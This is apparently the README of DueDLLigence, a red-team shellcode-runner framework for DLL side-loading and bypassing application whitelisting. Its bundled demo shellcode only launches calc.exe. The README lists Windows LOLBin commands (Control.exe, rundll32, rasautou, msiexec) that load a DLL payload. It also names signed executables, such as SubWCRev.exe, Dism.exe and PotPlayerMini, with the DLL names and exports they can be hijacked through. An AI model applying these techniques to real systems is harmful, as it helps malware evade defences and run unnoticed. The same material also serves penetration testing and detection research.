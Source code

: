 # DueDLLigence

Shellcode runner framework for application whitelisting bypasses and DLL side-loading. The shellcode included in this project spawns calc.exe.


If desired, change the injection type by modifying the following line to the appropriate injection type
<br>```public const ExecutionMethod method = ExecutionMethod.CreateThread;```

Running the DLL with the following legitimate exes 

## Application Whitelisting Bypasses. Lolbins

### Control.exe
Export: CPlApplet
Syntax: Rename compiled “dll” extension to “cpl” and just double click it!
<br>```Control.exe [cplfile]```
<br>```Rundll32.exe Shell32.dll, Control_RunDLL [cplfile]```

### Rasautou
Export: powershell
<br>```rasautou –d {dllpayload} –p powershell –a a –e e```

### Msiexec
Export: DllUnregisterServer
<br>```msiexec /z {full path to msiexec.dll}```

## DLL Side-Loading Binaries and Details
Tortoise SVN (SubWCRev.exe)
<br> DLL == "crshhndl.dll"; Arch == x64; OS == Win7 & 10;
<br> Exports: InitCrashHandler,SendReport,IsReadyToExit,SetCustomInfo,AddUserInfoToReport,RemoveUserInfoFromReport,AddFileToReport,RemoveFileFromReport,GetVersionFromApp,GetVersionFromFile

Dism Image Servicing Utility (Dism.exe)
<br> DLL == "DismCore.dll"; Arch == x64; OS == Win7 & 10;
<br> Export: DllGetClassObject

PotPlayerMini
<br> DLL == "PotPlayer.dll"; Arch == x86;
<br> Exports: PreprocessCmdLineExW,UninitPotPlayer,CreatePotPlayerExW,DestroyPotPlayer,SetPotPlayRegKeyW,RunPotPlayer

Credit for the DueDLLigence name goes to Paul Sanders (@saul_panders)
